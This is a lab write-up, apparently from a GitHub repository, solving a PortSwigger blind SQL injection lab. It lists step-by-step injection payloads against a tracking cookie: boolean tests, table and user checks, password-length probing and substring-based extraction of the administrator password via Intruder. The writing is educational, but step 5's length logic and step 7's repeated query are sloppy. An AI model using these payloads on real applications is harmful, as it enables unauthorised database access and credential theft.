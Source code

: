 # SQL Injection - Blind SQLi with conditional responses

## 📌 Lab Details
- **Title**: Blind SQLi with conditional responses.
- **Difficulty**: Practitioner
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/5aeeac77d52d55cdff3f9a5d86d050c9a77ebfef7657cccb459bee29ad5c3fce?referrer=%2fweb-security%2fsql-injection%2fblind%2flab-conditional-responses

## 🔍 Summary
This lab demonstrated how Blind SQLi works and to brute force a password of the administrator.

## 🛠 Steps to Solve
1. Confirm that the parameter is vulnerable to blind SQLi -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o'`.
   If this tracking id exist -> query returns value -> Welcome back message.
   If this tracking id doesn't exist -> query returns nothing.
2. `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and 1=1--'`
   TRUE -> Welcome back
   `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and 1=0--'`
   FALSE -> no message
   This confirms that application is vulnerable to blind SQLi.
3. Confirm that a `users` table exists -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select 'x' from users LIMIT 1)='x'--'`
   TRUE -> Welcome back.
4. Confirm that username `administrator` exist in the database -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select username from users where username='administrator')='administrator'--'`
   TRUE -> Welcome back -> administrator user exists.
5. Determining the length of the password by a brute force attack -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'`
   -> password is exactly `20` characters.
6. Determining the first character of the password -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select substring(password,1,1) from users where username='administrator')='a'--'`
   -> `5` is the first character.
7. Determining the complete password using a `cluster bomb` attack -> `select tracking-id from tracking-table where trackingId='kkNCmXuIjKg6xv3o' and (select substring(password,1,1) from users where username='administrator')='a'--'`
   -> password is `yffiwhnsfhtirdglb47q`
   
## 📖 Key Takeaways
- Understanding how `Blind SQLi` works.
- Understanding how to implement `brute force` attack with the help of `intruder`.
  
## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/3cfb73ba-ca65-4cb3-bb3e-b1df114a7953)
![image](https://github.com/user-attachments/assets/8d172ad5-e80e-4a86-ab79-12a2ae4065a3)
![image](https://github.com/user-attachments/assets/6e66b633-1718-463b-8c84-b4d02cd890f0)
![image](https://github.com/user-attachments/assets/a1d0b0ad-2bab-4a11-ad7a-137662ab372e)
![image](https://github.com/user-attachments/assets/71fd9d4d-3554-4dfc-a6d0-c09f06bdbc52)
![image](https://github.com/user-attachments/assets/06d0ea9b-3bf1-4c48-bb58-be8a300e9c5f)
![image](https://github.com/user-attachments/assets/221e9a93-43cc-414e-9af6-0be883c28e6b)
![image](https://github.com/user-attachments/assets/8bd5637d-7385-4ccb-bdc4-53709d7f6d87)
![image](https://github.com/user-attachments/assets/0d0c8805-768a-4ae4-81d6-59f9833efac2)
![image](https://github.com/user-attachments/assets/7da90ad4-5811-47b5-832b-df4f6f600950)

